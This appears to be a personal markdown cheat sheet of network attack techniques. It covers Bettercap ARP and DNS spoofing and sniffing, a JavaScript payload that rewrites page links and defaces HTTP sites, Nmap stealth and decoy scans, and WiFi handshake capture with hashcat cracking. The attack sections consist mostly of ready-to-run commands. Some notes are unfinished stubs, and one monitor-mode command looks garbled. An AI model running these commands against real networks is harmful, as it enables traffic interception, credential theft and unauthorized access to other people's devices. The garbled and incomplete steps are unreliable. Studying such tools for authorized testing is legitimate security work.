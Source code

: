 # Network-based Tools and Techniques

## [Bettercap](https://www.bettercap.org/)

- Implements MITM attacks

Detect network devices
```
net.probe on
```
List all devices
```
net.show
```
### ARP Spoofing
- Redirects the traffic as `Target → Attacker → Router`
- HTTP websites can directly capture your credentials
```
set arp.spoof.targets <IP>
arp.spoof on
```
### Sniffing
```
net.sniff on
net.sniff off
```
### DNS Spoofing
- Redirects the victim to an attacker controlled page
- Start your attacker server `service apache2 start`
```
set dns.spoof.domains <URL>
dns.spoof on
```
### Redirecting
```js
window.onload = function() {
    console.log("Hacked website");
    anchors = document.getElementsByTagName("a");
    for (var i = 0; i < anchors.length; i++) {
        anchors[i].href = 'https://www.hackthissite.org/'; // redirect all links to this website
    }
    document.write("<h1> You have been hacked </h1>"); // modify contents of the HTTP website entirely
}
```
- Set HTTP Proxy before redirectiong
```set http.proxy.injectjs ./<your-javascript.js>
http.proxy on
```
- Turn off proxy after any changes to the script and back on for the changes to take effect

## [Nmap](https://nmap.org/)
- Network scanner - Scan networks to find live hosts / targets / services

1. Check for live systems (ping)
    ```
    $ nmap -sP <IP/24>
    ```
    - Ping 254 possible hosts at once

2. Check for open ports
    ```
    $ nmap -sT -p 80,443 <IP/24>
    ```
    - -sT: TCP connection 3-way handshake (SYN, SYN ACK, ACK) for full-open scan

3. Scan beyond IDS/Firewall
    ```
    $ nmap -sS -p
    ```
    - -sS: stealthy / SYN scan / half-open scan

4. Perform banner grabbing and OS fingerprinting
    ```
    $ nmap -O <IP>
    $ nmap -A <IP>
    ```
    - OS detections
    - Version detections
    - Script scanning
    - Traceroute 	

5. Scan for vulnerabilities
6. Draw network diagrams
7. Prepare proxies

### Others
- Decoy
    ```
    $ nmap -sS -D <decoy-IP> 
    ```
- Scripts
    ```
    $ nmap –script vuln <IP>
    ```
- Switches


## [BeEF](https://beefproject.com/)
- The Browser Exploitation Framework used for penetration testing web browsers

## Hacking WiFi passwords

1. Handshake Capture
    - Observe the handshake b/w the device and the router
    - Check the supported interface modes to monitor : `$ iw list`
    - Get name of the adapter : `$ ifconfig`
    - Turn it off : `$ ip link set <adapter-name> down`
    - Set adapter into monitoring mode : `$ sudo <adapter-name> set monitor control`
    - Turn it back on : `$ ip link set <adapter-name> up`
    - Make sure nothing intereferes with us listening
      - Stop Network Manager : `$ sudo systemctl stop NetworkManager`
      - Kill any WiFi managers : `$ sudo airmon-ng check kill`
    - Listen to WiFi network for router's BSSID using `airodump-ng` (A wireless packet capture tools for `aircrack-ng`)
      - `sudo airodump-ng <adapter-name>`
    - Capturing handshake
      - `sudo airodump-ng <adapter-name> -w wpa-capture --bssid <router-bssid> -c 1`
      - This captures the handshake to `cap` files containing password hashes
    - Attacks
      - Brute Force Attack via Hashcat
        - `hashcat` is an advanced CPU-based password recovery utility
        - Convert the `cap` to `pcap` : `editcap -F pcap <cap-file> <output-file>.pcap`
        - Transform `pcap` to hashcat format : `hcxpcapngtool -o hash.hc22000 <output-file>.pcap`
        - Attack Commad : `hashcat -m 22000 hash.hc22000 -a 3 ?d?d?d?d?d?d?d?d` --show
        - A simple 10 digit password takes around 11 days on an i7
      - Dictionary Attack
        - 
    
2. Deauthenitication Attack
  - Force the handshake by knocking the devide off the router
3. RSN Attack
  - Capture the packets and brute force the router


Capture wifi handshake 
Crack wifi password using hashcat
Hashcat explained
Password hash cracking
Brute force password
Dictionary attack on password
Password lists from the darkweb
Rule based attack
Hashcat default rules
Hashcat best rules
Wifi deauthentication attack
RSN wifi attack
GCP gpus to crack passwords


#### References
YouTube
- [hacking every device on wifi / ethernet networks 1 #wifi #hack #MITM](https://www.youtube.com/watch?v=2J3idGxCbuc)
- [hacking every device on wifi / ethernet networks 2 #wifi #hack #MITM #javascript](https://www.youtube.com/watch?v=ExxxhioK1Hk)
- [3 wifi attacks and speed hash cracking with cloud GPUs](https://www.youtube.com/watch?v=MrWAJEQJZbk)
